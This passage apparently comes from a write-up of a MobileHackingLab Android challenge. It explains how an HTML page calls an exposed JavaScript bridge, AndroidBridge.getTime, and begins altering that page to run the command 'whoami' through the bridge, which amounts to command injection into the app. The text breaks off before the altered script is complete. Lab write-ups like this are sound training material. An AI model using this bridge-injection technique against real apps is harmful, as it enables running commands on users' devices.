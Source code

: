 ```java
            return readText;
        } catch (Exception e) {
            return "Error getting time";
        }
    }
}
```

When clicked, the `loadWebsite()` JavaScript function redirects the user to "https://www.mobilehackinglab.com/". Additionally, it fetches the system time from the Android app using the `AndroidBridge.getTime()` method, displays the time of visit in the paragraph,

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
</head>
<body>

<p id="result">Thank you for visiting</p>

<!-- Add a hyperlink with onclick event -->
<a href="#" onclick="loadWebsite()">Visit MobileHackingLab</a>

<script>

    function loadWebsite() {
       window.location.href = "https://www.mobilehackinglab.com/";
    }

    // Fetch and display the time when the page loads
    var result = AndroidBridge.getTime("date");
    var lines = result.split('\n');
    var timeVisited = lines[0];
    var fullMessage = "Thanks for playing the game\n\n Please visit mobilehackinglab.com for more! \n\nTime of visit: " + timeVisited;
    document.getElementById('result').innerText = fullMessage;

</script>

</body>
</html>
```

We need now to modify our own `index.html` file to execute a command `whoami` as follows

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
</head>
<body>

<p id="result">Thank you for visiting</p>

<!-- Add a hyperlink with onclick event -->
<a href="#" onclick="loadWebsite()">Visit MobileHackingLab</a>

<script>

    function loadWebsite() {
```